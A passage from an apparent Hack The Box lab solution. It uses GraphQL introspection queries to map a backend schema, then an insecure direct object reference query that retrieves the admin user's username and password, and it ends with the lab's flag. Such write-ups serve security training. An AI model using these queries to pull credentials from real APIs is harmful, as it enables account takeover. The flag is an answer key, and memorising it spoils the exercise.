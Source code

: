 ```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

![[HTB Solutions/Others/z. images/25f5dc34028177dfe88ca597ae7923c8_MD5.jpg]]

Subsequently, students will proceed to obtain the supported queries in GraphQL's backend with the following query to find the `user` supported query:

Code: graphql

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

![[HTB Solutions/Others/z. images/ca6ae428d7013a0000c18342ab82506b_MD5.jpg]]

Next, students will use the insecure direct object reference targeting the `admin` user using the `user` supported query and the fields `username` and `password` to obtain the flag:

Code: graphql

```graphql
{
  user(username: "admin") {
    username
    password
  }
}
```

![[HTB Solutions/Others/z. images/541c4ed11e7578584f3676c94cfba910_MD5.jpg]]

Answer: `HTB{79ebbbce53f40edf75c667ef6fd36fae}`
